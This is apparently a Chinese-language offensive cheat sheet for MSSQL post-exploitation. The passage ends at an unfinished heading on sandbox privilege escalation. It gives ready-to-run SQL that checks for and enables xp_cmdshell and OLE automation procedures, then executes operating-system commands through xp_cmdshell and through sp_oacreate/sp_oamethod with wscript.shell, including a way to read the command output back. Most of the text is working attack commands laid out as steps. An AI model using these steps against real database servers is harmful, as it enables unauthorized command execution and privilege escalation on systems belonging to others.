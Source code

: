 ### xp_cmdshell

xp_cmdshell 可以执行系统命令，在 mssql 2000 是默认开启的，在 mssql 2005 之后默认禁止。管理员 sa 权限可通过 sp_configure 开启。

1. 判断 xp_cmdshell 是否存在，返回 1 则存在：`select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'`
2. 不存在则开启：`EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE`
3. 关闭：`EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 0;RECONFIGURE`
4. 执行系统命令：`exec master..xp_cmdshell 'whoami'`

### sp_oacreate + sp_oamethod

在 xp_cmdshell 不能利用的情况下可以考虑 sp_oacreate，利用前提是 sqlserver sysadmin 账户，服务器权限为 system。

sp_oacreate 是一个存储过程，可以删除、复制、移动文件，配合 sp_oamethod 写文件执行系统命令。

1. 判断 sp_oacreate 是否存在，返回 1 则存在：`select count(*) from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE'`

2. 开启：`exec sp_configure 'show advanced options',1;reconfigure;exec sp_configure 'ole automation procedures',1;reconfigure`

3. 关闭：`exec sp_configure 'show advanced options',1;reconfigure;exec sp_configure 'ole automation procedures',0;reconfigure`

4. 执行系统命令：

   ````mssql
   declare @shell int
   exec sp_oacreate 'wscript.shell',@shell output
   exec sp_oamethod @shell,'run',null,'C:\\Windows\\System32\\cmd.exe /c whoami'
   ````

5. 直接执行命令成功后无回显的情况

   ```mssql
   declare @shell int, @exec int, @text int, @str varchar(8000)
   exec sp_oacreate 'wscript.shell',@shell output
   exec sp_oamethod @shell,'exec',@exec output,'C:\\Windows\\System32\\cmd.exe /c whoami'
   exec sp_oamethod @exec, 'StdOut', @text out
   exec sp_oamethod @text, 'readall', @str out
   select @str;
   ```

### 沙盒提权

沙盒模式是数据库的一种安全功能。在沙盒模式下，只对控件和字段属性中的安全且不含恶意代码的表达式求值。

利用前提：

- 具有 dba 权限
- 数据库运行权限为 system
- 服务器拥有 jet.oledb.4.0 驱动

局限：
